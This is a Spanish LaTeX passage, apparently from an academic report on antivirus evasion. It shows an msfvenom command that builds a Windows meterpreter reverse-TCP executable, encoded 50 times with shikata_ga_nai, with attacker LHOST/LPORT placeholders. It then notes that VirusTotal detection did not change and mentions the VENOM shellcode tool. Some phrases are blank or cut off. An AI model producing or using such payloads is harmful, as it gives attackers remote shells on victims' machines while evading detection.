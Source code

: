Para replicar el virus de Windows anterior pero con la firma codificada, se debe ejectuar el siguiente comando:

\begin{lstlisting}
    msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -b "\x00" -i 50 --platform windows -a x86 -f exe LHOST=<IP> LPORT=<PUERT\_DE\_ESCUCHA> -o indetectable.exe
\end{lstlisting}

En este caso, la codificación utilizada es la  (que se puede traducir al español como  \autocite{Signatures}) - transforma la firma del \emph{payload} haciendo operaciones XOR acumulativas sobre la misma. No es perfecta, pero es eficiente y genera varias firmas rápidamente que luego pueden ser desencriptadas al momento de ejecutarse en la máquina objetivo. En el ejemplo de ejecución, la operación XOR se realiza 50 veces.

Probando el nuevo archivo en VirusTotal, lamentablemente no se logró ninguna mejora, la cantidad de antivirus que reconocen el archivo como una amenaza sigue siendo la misma.

Otra herramienta disponible para encriptar el \emph{payload} del virus y así ser menos reconocible, es \href{https://sourceforge.net/projects/crisp-shellcode-generator/files/}{VENOM} \autocite{VENOM}. Esta herramienta se vale del programa \texttt{msfvenom} para generar \emph{shellcode} en distintos formatos (como puede ser en C, Python, Ruby), y luego inyectarlo en una función de alguno de los lenguajes de programación (en un archivo )  





\clearpage
\printbibliography


